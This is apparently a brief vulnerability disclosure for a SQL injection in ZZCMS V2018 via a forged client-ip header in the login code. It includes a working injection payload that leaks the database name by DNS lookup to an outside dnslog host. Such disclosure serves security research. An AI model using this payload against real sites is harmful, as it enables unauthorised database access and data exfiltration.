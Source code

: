 ## ZZCMS V2018  SQL Injection

### code: 
user\checklogin.php

![image](https://github.com/P0rZ9/ZZCMS/blob/master/1.jpg)

Follow up this function：getip()

![image](https://github.com/P0rZ9/ZZCMS/blob/master/2.jpg)

check_isip is a filter function,Follow up:

![image](https://github.com/P0rZ9/ZZCMS/blob/master/3.jpg)

This is just a simple filter. It has nothing to do with it.So,We can forge IP to inject.

### show:
At the time of landing,In HTTP head add this： 
`
client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.xxxx.ceye.io\abc'))))#
`

You can see that you have successfully obtained the Database name in dnslog platform.
![image](https://github.com/P0rZ9/ZZCMS/blob/master/4.jpg)

